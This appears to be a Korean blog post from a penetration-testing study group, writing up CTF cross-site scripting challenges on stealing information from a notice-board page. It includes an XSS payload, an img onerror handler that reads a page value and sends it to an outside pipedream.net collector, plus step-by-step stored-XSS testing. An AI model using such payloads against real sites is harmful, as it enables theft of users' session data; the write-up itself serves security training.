 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS - iframe"
excerpt: "모의해킹 취업반 스터디 7기 11주차"

date: 2024-12-30
last_modified_at: 

tags: [TIL, WEB]
---
```


# Basic Script Prac
## mypage -> reflected xss
```
<img src=. onerror="
let e = document.querySelectorAll('input')[1].placeholder;
let i = new Image();
i.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + e;
">
```

# CTF - Steal Info
## notice_list.php
1. 저장되고 출력되는 위치 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-1.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-2.gif?raw=true">

1. `<script>alert(1)</script>`로 XSS 공격이 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-3.gif?raw=true">

1. data 탈취
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-4.gif?raw=true">

* 공격 코드
![pre tag가 일을 안 해요](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-9.png?raw=true)

# CTF - Steal Info 2
## notice_list.php
1. 저장되고 출력되는 위치 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-5.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-6.gif?raw=true">

1. `<script>alert(1)</script>`로 Stored XSS 공격이 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-7.gif?raw=true">

1. data 탈취
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-8.gif?raw=true">

* 공격 코드
![pre tag가 일을 안 해요 2](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-10.png?raw=true)